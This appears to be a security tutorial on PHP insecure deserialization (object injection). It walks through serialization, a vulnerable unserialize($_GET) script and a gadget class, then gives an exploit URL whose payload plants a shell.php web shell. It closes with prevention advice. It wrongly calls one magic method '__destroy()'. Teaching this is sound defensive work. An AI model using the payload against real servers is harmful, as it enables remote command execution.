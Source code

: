 ![Unsafe Deserialization](image/serialization.png?raw=true "Unsafe Deserialization")
# Description
Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code.

# Understanding Serialization and UnSerialization

## Serialize()

The serialize() function converts a storable representation of a value. To serialize data means to convert a value to a sequence of bits, so that it can be stored in a file, a memory buffer, or transmitted across a network.

Example:

```php
<?php

$our_array = array("Pentester","Nepal");
$serialized = serialize($our_array);
echo $serialized;

?>

```
Returns;
`a:2:{i:0;s:9:"Pentester";i:1;s:5:"Nepal";}`

Understanding the serialized string;

| String     | Meaning      |
| ------------- | ------------- | 
|a:2{|	    Array of 2 values|
|i:0|	       Integer, value [ index-0]|
|S:9:"Pentester"|    String, 9 chars long, string value "Pentester"|
|i:1|	Integer, value [index-1]|
|S:5:"Nepal"|	String , 5 chars long, string value "Nepal"


# PHP UnSerialization
Convert serialized data back into actual data.

Example:

```php
<?php
$data = serialize(array("Pentester", "Nepal"));

$test = unserialize($data);
var_dump($test);
?>
```
Returns;
`array(2) { [0]=> string(9) "Pentester" [1]=> string(5) "Nepal" }`

# Vulnerability

For example, the following script creates an instance of the object FSResource, serializes it, and then prints the string representation of the object.

```php
<?php

class FSResource {

    function __construct($path) {
        $this->path = $path;
        if (file_exists($path)) {
          $this->content = file_get_contents($path);
        }
    }

    function __destruct() {
        file_put_contents($this->path, $this->content);
    }

}

$resource = new FSResource('/tmp/file');
print(serialize($resource));

# Prints the following string representation:
# O:10:"FSResource":2:{s:4:"path";s:9:"/tmp/file";s:7:"content";s:0:"";}
```

The exploitation of deserialization in PHP is called PHP Object Injection, which happens when user-controlled input is passed as the first argument of the unserialize() function. This is a vulnerable script.php:

```php
<?php

$instance = unserialize($_GET["data"]);
?>
```

To be exploitable, the vulnerable piece of code must have enough PHP code in scope to build a working POP chain, a chain of reusable PHP code that causes a meaningful impact when invoked. The chain usually starts by triggering `__destroy()` or `__wakeup()` PHP magic methods, called when the object is destroyed or deserialized, in order to call other gadgets to conduct malicious actions on the system.

If the class FSResource defined in the paragrah above is in scope, an attacker could send an HTTP request containing a serialized representation of an FSResource object that creates a malicious PHP file to path with an arbitrary content when the `__destruct()` magic method is called upon destruction.

# Exploit

`http://localhost/script.php?data=O:10:%22FSResource%22:2:{s:4:%22path%22;s:9:%22shell.php%22;s:7:%22content%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}`

The payload above decodes as `O:10:"FSResource":2:{s:4:"path";s:9:"shell.php";s:7:"content";s:27:"<?php system($_GET["cmd"]);";}` and, when deserialized, it creates the shell.php allowing the attacker to run arbitrary commands on the systems.

# Prevention
Never use the unserialize() function on user-supplied input, and preferably use data-only serialization formats such as JSON. If you need to use PHP deserialization, a second optional parameter has been added in PHP 7 that enables you to specify an allow list of allowed classes.